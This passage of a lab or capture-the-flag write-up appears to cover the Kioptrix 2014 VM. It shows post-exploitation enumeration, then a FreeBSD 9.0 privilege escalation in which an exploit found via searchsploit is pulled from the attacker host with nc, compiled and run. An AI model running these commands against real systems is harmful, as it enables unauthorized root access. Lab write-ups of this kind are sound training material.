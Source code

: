 
## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www@kioptrix2014> id
uid=80(www) gid=80(www) groups=80(www)
www@kioptrix2014>  
www@kioptrix2014> uname
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
www@kioptrix2014>  
www@kioptrix2014> ifconfig
em0:  flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
      options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
      ether 00:0c:29:0b:79:90
      inet 192.168.92.185 netmask 0xffffff00 broadcast 192.168.92.255
      nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
      media: Ethernet autoselect (1000baseT <full-duplex>)
      status: active
www@kioptrix2014>  
www@kioptrix2014> users
root
toor
```

\newpage
## Phase #3: Privilege Escalation
1\. While exploring the system, we look for privilege escalation exploits for FreeBSD 9 and find two hits. Since the target system doesn't have `wget` or `curl` we fallback on `nc` to download the exploit file. Once compiled, we execute the exploit and get elevated access:  
``` {.python .numberLines}
searchsploit freebsd 9.0
searchsploit -x 28718
nc -nlvp 9999 <28718.c
nc 192.168.92.183 9999 >28718.c
gcc -o 28718 28718.c
./28718

```

![writeup.privesc.steps.1.1](./screenshot15.png)  

![writeup.privesc.steps.1.2](./screenshot16.png)  
